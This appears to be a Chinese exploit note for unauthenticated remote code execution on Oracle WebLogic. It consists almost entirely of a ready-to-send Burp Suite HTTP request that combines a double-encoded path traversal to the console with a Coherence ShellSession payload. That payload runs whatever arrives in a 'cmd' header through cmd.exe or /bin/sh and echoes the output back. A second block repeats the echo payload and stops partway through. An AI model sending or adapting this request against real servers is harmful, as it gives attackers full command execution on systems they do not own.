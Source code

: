 #### Burpsuite

```
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: 172.16.242.134:7001
cmd: chcp 65001&&whoami&&ipconfig
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1258

_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}executeThread.interrupt();
");
```

#### 回显参考链接：

```
https://xz.aliyun.com/t/5299
https://github.com/feihong-cs/Java-Rce-Echo/blob/master/weblogic/code/WeblogicEcho.jsp
https://mp.weixin.qq.com/s/u8cZEcku-uIbGAVAcos5Tw

```
#### 回显payload
```
weblogic.work.ExecuteThread executeThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapter adapter = executeThread.getCurrentWork();
java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj = field.get(adapter);
weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);
String cmd = req.getHeader("cmd");
String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
if (cmd != null) {
    String result = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
    weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
```